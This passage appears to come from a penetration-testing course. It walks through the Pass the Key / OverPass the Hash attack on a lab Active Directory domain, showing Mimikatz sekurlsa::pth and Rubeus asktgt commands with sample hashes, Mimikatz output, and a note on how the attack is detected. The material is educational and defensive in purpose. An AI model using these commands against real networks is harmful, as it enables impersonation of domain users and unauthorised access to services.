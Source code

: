 Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash aka. Pass the Key attack using `Mimikatz` and `Rubeus`.

#### Mimikatz - Pass the Key aka. OverPass the Hash

```cmd-session
c:\tools> mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

user    : plaintext
domain  : inlanefreight.htb
program : cmd.exe
impers. : no
NTLM    : 3f74aa8f08f712f09cd5177b5c1ce50f
  |  PID  1128
  |  TID  3268
  |  LSA Process is now R/W
  |  LUID 0 ; 3414364 (00000000:0034195c)
  \_ msv1_0   - data copy @ 000001C7DBC0B630 : OK !
  \_ kerberos - data copy @ 000001C7E20EE578
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   _ *Password replace @ 000001C7E2136BC8 (32) -> null_


This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the AES-256 hash from the information we collect using Mimikatz `sekurlsa::ekeys`.

#### Rubeus - Pass the Key aka. OverPass the Hash

```cmd-session
c:\tools> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

> **Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.


> **Note:** Modern Windows domains (functional level 2008 and above) use AES encryption by default in normal Kerberos exchanges. If we use an rc4_hmac (NTLM) hash in a Kerberos exchange instead of an aes256_cts_hmac_sha1 (or aes128) key, it may be detected as an "encryption downgrade."
